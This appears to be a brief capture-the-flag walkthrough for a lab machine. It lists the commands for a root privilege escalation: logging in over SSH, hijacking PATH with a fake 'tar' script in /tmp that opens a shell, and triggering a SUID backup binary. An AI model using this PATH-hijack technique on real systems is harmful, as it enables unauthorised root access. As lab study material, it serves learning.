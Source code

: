 1. "ssh -i /root/kali/.ssh/id\_rsa [matt@10.10.11.136](mailto:matt@10.10.11.136)"
2. cd /tmp
3. export PATH="/tmp:$PATH"
4. printf '#!/bin/bash\n/bin/sh -i #\n' > tar
5. chmod +x tar
6. pandora\_backup
   * This will attempt to execute the script but will execute "tar" instead because secure\_path is not set and we established /tmp to be our path. Now /bin/bash was executed within tar, and we have a root shell.
